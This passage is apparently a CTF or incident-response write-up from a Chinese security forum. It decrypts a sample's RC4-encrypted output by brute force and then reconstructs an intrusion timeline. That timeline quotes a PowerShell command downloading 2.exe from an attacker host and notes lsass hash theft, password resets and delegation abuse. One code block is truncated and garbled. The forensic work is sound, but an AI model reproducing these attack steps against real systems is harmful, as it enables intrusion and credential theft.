[href="forum.php?mod=attachment&aid=Mjc0ODUyNHw0ODE2NGE0ZXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUyNHw0ODE2NGE0ZXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:56 上传

使用刚刚读取到的内容（`v5`），利用PRGA生成秘钥流并与密文字节异或，完成rc4加密



`4.6.png` (148.86 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=Mjc0ODUyNXxkNGE0YjVmMnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUyNXxkNGE0YjVmMnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:56 上传

生成字符串


`4.7.png` (69.57 KB, 下载次数: 4)

[href="forum.php?mod=attachment&aid=Mjc0ODUyNnwwODg0YTUxZHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUyNnwwODg0YTUxZHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:56 上传

如下


`4.8.png` (369.48 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=Mjc0ODUyN3w3ZjZkMmRmZXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUyN3w3ZjZkMmRmZXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:56 上传

再次生成字符串


`4.9.png` (28.14 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=Mjc0ODUyOHxkYzgxYzQ1ZXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUyOHxkYzgxYzQ1ZXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:56 上传

如下


`4.10.png` (85.9 KB, 下载次数: 4)

[href="forum.php?mod=attachment&aid=Mjc0ODUyOXwzMzFlNzViNXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUyOXwzMzFlNzViNXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:56 上传

将加密后的字符串和自解密生成的字符串拼接，其中自解密生成的字符串无实际用途，每次生成的都一样，仅为加密特征。



`4.11.png` (39.77 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=Mjc0ODUzMHw4YzgwMjBkMHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUzMHw4YzgwMjBkMHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:56 上传



`4.12.png` (55.67 KB, 下载次数: 4)

[href="forum.php?mod=attachment&aid=Mjc0ODUzMXxlMjk4YWQ0OXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUzMXxlMjk4YWQ0OXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:56 上传

创建文件


`4.13.png` (15.33 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=Mjc0ODUzMnxiOTk2NmMzZHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUzMnxiOTk2NmMzZHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:56 上传



`4.14.png` (66.01 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=Mjc0ODUzM3wzYzRlZTVlYnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUzM3wzYzRlZTVlYnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:56 上传

写入文件



`4.15.png` (33.35 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=Mjc0ODUzNHwyOWM1ODZhNXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUzNHwyOWM1ODZhNXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:56 上传

由于密钥是随机生成的，但是因为密钥只有6位而且取值为0-10，因此可以直接爆破出结果

```python
import itertools
import os
from concurrent.futures.thread import ThreadPoolExecutor

def rc4(key, data):
    key_length = len(key)
    S = list(range(256))
    j = 0
    for i in range(256):
        j = (j + S[i] + key[i % key_length]) % 256
        S[i], S[j] = S[j], S[i]

    i = 0
    j = 0
    result = []
    for byte in data:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        K = S[(S[i] + S[j]) % 256]
        result.append(byte ^ K)
    return result
```


```
def is_printable(data):
    try:
        return all(32  解密结果: {decrypted_string}"
max_threads = os.cpu_count()*2
print(max_threads)
with ThreadPoolExecutor(max_workers=max_threads) as executor:
    executor.map(run, itertools.product(range(0, 10), repeat=6))
```


4.16.png (5.16 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=Mjc0ODUzNXxmOTA3MGQxMXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUzNXxmOTA3MGQxMXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:56 上传

其中加密后缀为一个假的flag，但是可以解出结果



4.17.png (77.13 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=Mjc0ODUzNnw3ODk1YTkzOXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUzNnw3ODk1YTkzOXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:56 上传

## 2> 5.综合应急

24/12/18 9:01:40分以`sa`账户连接数据库



5.1.png (164.73 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=Mjc0ODUzN3w5NTJiMWQ1MnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUzN3w5NTJiMWQ1MnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:56 上传

24/12/18 9:02:04 由`sqlservr.exe`通过`clr`调用`cmd.exe`而后执行`powershell` -c `iwr` -uri [81/2.exe" target="_blank" rel="noopener noreferrer nofollow"](http://10.0.100.85:81/2.exe:rel="nofollow noopener" href="http://10.0.100.85) -o `C:/windows/tasks/2.exe`



5.2.png (315.22 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=Mjc0ODUzOHwxYzIzOGU3NnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUzOHwxYzIzOGU3NnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:56 上传



5.3.png (397.44 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=Mjc0ODUzOXw4NTk5MmQzNXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUzOXw4NTk5MmQzNXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:56 上传

24/12/18 9:02:08 执行木马


5.4.png (67.67 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=Mjc0ODU0MHxmNjUwODAxNnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU0MHxmNjUwODAxNnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:56 上传

24/12/18 9:02:15创建管道`spoolss`，9:02:18 获取`system`权限


5.5.png (70.31 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=Mjc0ODU0MXw4ZGM4ZDM0NnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU0MXw4ZGM4ZDM0NnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:56 上传


5.6.png (415.52 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=Mjc0ODU0MnwwY2MzMTk0MXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU0MnwwY2MzMTk0MXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:56 上传

24/12/18 9:02:50访问进程`lsass.exe`,推测攻击者从中获取哈希


5.7.png (63.6 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=Mjc0ODU0M3w5NGJlNGM4N3wxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU0M3w5NGJlNGM4N3wxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:56 上传

24/12/18 9:03:27 使用`sql01`账户通过`wmi`连接服务器


5.8.png (461.3 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=Mjc0ODU0NHxmZDQ1ZTg5ZXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU0NHxmZDQ1ZTg5ZXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:56 上传

24/12/18 9:03:54 创建用户`admin`


5.9.png (118.78 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=Mjc0ODU0NXxkNTBiYTA2YnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU0NXxkNTBiYTA2YnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:56 上传

24/12/18 9:03:55发现攻击者ip `10.0.100.85`


5.10.png (76.82 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=Mjc0ODU0Nnw4MTdmOGIyMXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU0Nnw4MTdmOGIyMXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:56 上传

24/12/18 9:05:14加载了`pv.ps1`,从文本中可发现该脚本实际为`PowerView.ps1`，主要作用是在域内做信息收集。


5.11.png (59.95 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=Mjc0ODU0N3xjNWY3MTcyMHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU0N3xjNWY3MTcyMHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:56 上传


5.12.png (78.28 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=Mjc0ODU0OHxiMWQ0N2I3YnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU0OHxiMWQ0N2I3YnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:56 上传


5.13.png (48.41 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=Mjc0ODU0OXxmZGVlN2ViN3wxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU0OXxmZGVlN2ViN3wxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:57 上传

24/12/18 9:10:44 进行`dns`查询


5.14.png (72.03 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=Mjc0ODU1MHw4ZTliZWUwNXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU1MHw4ZTliZWUwNXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:57 上传

24/12/18 9:11:15 修改`administrator`账户密码为`Password@123`


5.15.png (106.91 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=Mjc0ODU1MXw4YWU0ZTNhY3wxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU1MXw4YWU0ZTNhY3wxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:57 上传

24/12/18 9:11:24.000 攻击者使用`sql01`本地管理员`administrator`账户`RDP`登陆服务器


5.16.png (62.03 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=Mjc0ODU1MnxiYTQyMDZiMHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU1MnxiYTQyMDZiMHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:57 上传

24/12/18 9:11:26.000 修改防火墙配置


5.17.png (282.35 KB, 下载次数: 1)


[href="forum.php?mod=attachment&aid=Mjc0ODU1M3xhN2ZlMTMxOXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU1M3xhN2ZlMTMxOXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:57 上传

24/12/18 9:16:19.220 攻击者使用`sql01`账户登陆`sql02`数据库，之后执行命令下载木马并执行木马，提权后修改了`sql02`本地管理员`administrator`


`5.18-1.png` (31.21 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=Mjc0ODU1NXw2MmEzNmVjZXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU1NXw2MmEzNmVjZXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:57 上传


`5.18.png` (57.83 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=Mjc0ODU1NHw2MWU5NmRhOHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU1NHw2MWU5NmRhOHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:57 上传

24/12/18 9:22:07.000 疑似利用web漏洞执行命令


`5.19.png` (249.87 KB, 下载次数: 4)

[href="forum.php?mod=attachment&aid=Mjc0ODU1Nnw3MmJiMThlZHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU1Nnw3MmJiMThlZHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:57 上传

24/12/18 9:26:46.000 创建调用`PowerView.ps1`


`5.20.png` (71.98 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=Mjc0ODU1N3xhZWY0NWQ4NHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU1N3xhZWY0NWQ4NHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:57 上传

24/12/18 9:33:54.000 web应用为域用户iis权限


`5.21.png` (63.4 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=Mjc0ODU1OHxjZDhmMzEyMXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU1OHxjZDhmMzEyMXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:57 上传


`5.22.png` (51.86 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=Mjc0ODU1OXw1NTNlMWFjZXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU1OXw1NTNlMWFjZXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:57 上传

24/12/18 9:59:44.000 修改`web01`本地管理员`administrator`密码


`5.23.png` (56.1 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=Mjc0ODU2MHwzMzhkNmRlYnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU2MHwzMzhkNmRlYnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:57 上传

24/12/18 9:59:50 rdp连接


`5.24.png` (67.61 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=Mjc0ODU2MXxkYzcwMmFhYXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU2MXxkYzcwMmFhYXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:57 上传

24/12/18 10:12:14 关闭防火墙


`5.25.png` (67.12 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=Mjc0ODU2MnxlMGUyNThlMXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODU2MnxlMGUyNThlMXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:57 上传

24/12/18 10:12:19 攻击者利用无约束委派请求票据，获取票据后利用票据获取域内账户hash


`5.26.png` (217.64 KB, 下载次数: 1)

